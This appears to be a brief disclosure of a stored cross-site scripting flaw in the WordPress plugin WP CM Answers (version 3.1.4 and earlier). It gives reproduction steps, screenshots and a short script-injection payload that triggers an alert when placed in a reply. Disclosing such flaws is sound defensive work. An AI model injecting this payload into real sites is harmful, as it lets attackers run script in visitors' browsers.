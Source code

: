 
Cross-Site Scripting (XSS) vulnerability in WP CM Answers Plugin <= 3.1.4 at WordPress.

STEPS:

1.click the Answers

2.click reply

3.put POC in reply
[![XIA1un.png](https://s1.ax1x.com/2022/06/14/XIA1un.png)](https://imgtu.com/i/XIA1un)
POC:
```Plaintext
<a href=""><script>alert(/xss/)</script><">1</a>
```
[![XIA4KA.png](https://s1.ax1x.com/2022/06/14/XIA4KA.png)](https://imgtu.com/i/XIA4KA)
Then go to the home page of the website

XSS vulnerability triggered[![XIEQPO.jpg](https://s1.ax1x.com/2022/06/14/XIEQPO.jpg)](https://imgtu.com/i/XIEQPO)
[![XIEBRg.png](https://s1.ax1x.com/2022/06/14/XIEBRg.png)](https://imgtu.com/i/XIEBRg)